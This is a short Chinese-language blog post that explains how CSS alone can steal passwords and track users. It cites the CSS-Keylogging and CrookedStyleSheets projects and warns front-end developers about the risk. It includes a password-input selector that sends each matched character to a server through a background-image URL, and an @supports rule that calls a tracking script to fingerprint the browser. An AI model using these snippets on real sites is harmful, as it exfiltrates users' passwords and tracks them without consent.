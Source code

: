 ```yaml
---
layout:     post
title:      一种通过CSS选择器盗取用户密码的攻击方式
subtitle:   web安全,不一样的css
date:       2019-03-12 13:57
author:     Youga
header-img: https://static.cjwddz.cn/blog/img/post-bg-ios9-web.jpg
catalog: 	 true
tags:
  - web
  - security
---
```


最近有关于css安全问题的讨论比较火热。  

话题的开始是由两个有趣的开源项目，`CSS-Keylogging` 和 `CrookedStyleSheets`。  

首先是`CSS-Keylogging` 从名字可以看出，项目提出通过css记录用户的输入并上传到服务器。实现方式也比较简单，通过枚举输入值的选择器，选择器一旦匹配就将携带的信息上传到服务端。服务器保存请求序列,按时间排序分析就可以得到用户隐秘信息。

```css
input[type="password"][value$="a"] {
  background-image: url("http://localhost:3000/a");
}
```

而 `CrookedStyleSheets` 提供了一个无javascript的用户交互跟踪方案。仅通过css样式代码就可以跟踪用户何时悬停鼠标，何时点击链接，何时在输入字段中输入文本，以及收集大量真实的用户代理信息，即便用户使用假的UA也没有用。


此外，css可以对用户浏览器进行探测

基于 @supports Media-Query，css资源请求在特定条件下触发。相当于使用了**浏览器的选择器**

```css
@supports (-webkit-appearance: none) {
  #target::after {
    content: url('track.php?action=browser_chrome');
  }
}
```


两个项目给了前端开发者警惕。安全问题，无孔不入。以往我们关注跨站脚本攻击，避免非法代码被执行，而看似温顺的css现在安全性也需要重新去评估。

